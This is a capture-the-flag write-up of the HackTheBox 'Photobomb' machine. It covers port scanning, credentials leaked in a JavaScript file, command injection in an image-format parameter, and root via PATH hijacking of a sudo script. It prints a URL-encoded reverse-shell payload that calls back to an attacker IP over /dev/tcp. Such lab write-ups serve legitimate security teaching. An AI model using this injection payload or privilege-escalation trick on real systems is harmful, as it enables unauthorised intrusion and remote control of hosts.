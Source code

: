 ```yaml
---
description: Photobomb box from HackTheBox write up.
password: 15609a409fb00ad3bd4ac4c50edfc3ad
---
```


# Photobomb

## Nmap

As usual a Nmap scan to know what we can do here:

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap --min-rate 1000 -p- 10.10.11.182
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-29 10:54 CET
Nmap scan report for 10.10.11.182
Host is up (0.063s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 42.14 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p 22,80 10.10.11.182   
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-29 10:57 CET
Nmap scan report for 10.10.11.182
Host is up (0.055s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.78 seconds
```

Only two ports, let's check that website. I can see that it is redirecting to `photobomb.htb` so I added it to my `hosts` file.

## Port 80

### Initial access

The site shows a really simple landing page and looks like there is another directory `/printer` that it is protected with a user and a password. Looking around I found this Javascript file:

```js
// http://photobomb.htb/photobomb.js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

We have credentials now! `pH0t0:b0Mb!`.

### RCE and reverse shell

The `/printer` directory allows the user to download different pictures with the quality and format that it selected. Playing a bit with the parameters I noticed that I was able to get code execution introducing the characters `&&` at the end of the parameter used for the image format:

<p align="center"><img alt="Testing the RCE vulnerability using the ping command and tcpdump" src="/assets/images/HackTheBox/Photobomb/commandInjection.jpg"></p>

Using the next payload I was able to get a reverse shell as the user `wizard`:

```
photo=mark-mc-neill-4xWHIpY2QcY-unsplash.jpg&filetype=jpg%26%26%2Fbin%2Fbash%20-c%20"%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.24%2F8000%200%3E%261"&dimensions=300x200
```

## Privesc

To be honest this part was pretty easy, I found that our user is able to execute `/opt/cleanup.sh` as the `root` user and it can also specify environment variables:

```bash
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

Checking the script I quickly found that in the last line the `find` command is not using an absolute path:

```bash
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

Since we are capable of injecting environment variables while executing the script with `sudo`, we can just create a script to execute a shell in our home directory called `find` and add our home directory to the `PATH` environment variable. This way, when we run the script with `sudo`, we will get a new shell as `root` once the script reaches the `find` command:

```bash
wizard@photobomb:~$ cat find 
#! /bin/bash

bash
wizard@photobomb:~$ sudo PATH="/home/wizard:$PATH" /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# id
uid=0(root) gid=0(root) groups=0(root)
```

